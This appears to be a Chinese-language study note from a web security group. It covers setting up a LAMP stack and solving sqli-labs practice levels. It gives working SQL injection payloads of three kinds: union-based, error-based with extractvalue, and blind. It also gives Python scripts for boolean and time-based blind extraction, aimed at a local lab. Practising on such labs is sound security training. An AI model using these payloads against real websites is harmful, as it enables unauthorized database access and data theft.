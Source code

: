 ## LAMP

### linux

**vmware ubuntu 22.05**

### Apach2

![image-20221130152243016](web组会1.assets/image-20221130152243016.png)

### mysql

![image-20221130152507155](web组会1.assets/image-20221130152507155.png)

### php

![image-20221130152528722](web组会1.assets/image-20221130152528722.png)

## sql-labs

值得一提的是在搭建**sql-labs**时，正常查询根本不出数据，在简单的用`echo 123;`debug了一下后。

发现是由于我的**sql-labs**文件夹是本用户在github下载压缩包后已到**/var/www/html**文件夹内的，导致**www-data**用户是没有写入权限的

![image-20221130152938725](web组会1.assets/image-20221130152938725.png)

于是在这一步是无法完成的，从而查询无法进行后面的操作，改完权限就好了。

**Less 1~6**

```
# 1
0'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = database();--+

# 2
0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = database();--+

# 3
0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = database();--+

#4
0") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = database();--+

#5
1' and (extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e)));--+

#6
1'" and (extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e)));--+
```

**Less-8**

```python
import requests

url='http://localhost/sqli-labs-php7-master/Less-8/?id='
flag=''
for i in range(1,100):
    for j in range(32,127):
        payload = f"1' and (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema = database()) ,{i},1))) = {j};--+"
        r=requests.get(url = url + payload)
        if 'You are in...........' in r.text:
            flag+=chr(j)
            print(flag)
            break
```

**Less-9**

```python
import requests
import time

url='http://localhost/sqli-labs-php7-master/Less-9/?id='
flag=''
for i in range(1,100):
    for j in range(32,127):
        payload = f"1' and if((ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema = database()),{i},1)) = {j}),sleep(1),1);--+"
        start = time.time()
        r=requests.get(url = url + payload)
        end = time.time()
        if (end - start > 1):
            flag += chr(j)
            print(flag)
            break
```

